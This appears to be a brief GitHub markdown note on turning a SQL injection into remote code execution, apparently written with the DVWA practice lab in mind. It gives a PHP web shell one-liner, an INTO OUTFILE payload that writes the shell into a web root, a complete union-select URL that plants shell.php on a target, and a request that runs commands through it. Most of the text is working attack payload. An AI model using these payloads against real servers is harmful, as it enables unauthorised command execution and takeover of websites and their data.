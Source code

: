 # Sql Injectoin to RCE

We detect the sqli vulnerability on target, we get password hash but we cant crack it, so what next ? 

here we can try RCE from sqli injeciton. For this We need to determine the root directory of the web server to upload our shell. Depending on the application and the type of web server in use, this can vary, especially if an admin changes the default location or adequate permissions are in place.Information about the web server, including the root directory, can usually be found in the "phpinfo.php" file. For this notes we can assume `/var/www/html` 

We use `into outfile` cmd to write file on server.with simple `php` script

```php
<?php system($_GET["cmd"]); ?>
```

```php
'<?php system($_GET["cmd"]); ?>' into outfile '/var/www/dvwa/cmd.php' #
```

Example

```html
http://target.com/product?id=2' union select 1,2,'<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php' #
```

We can execute cmd by going `http://target.com/shell.php?cmd=whoami`
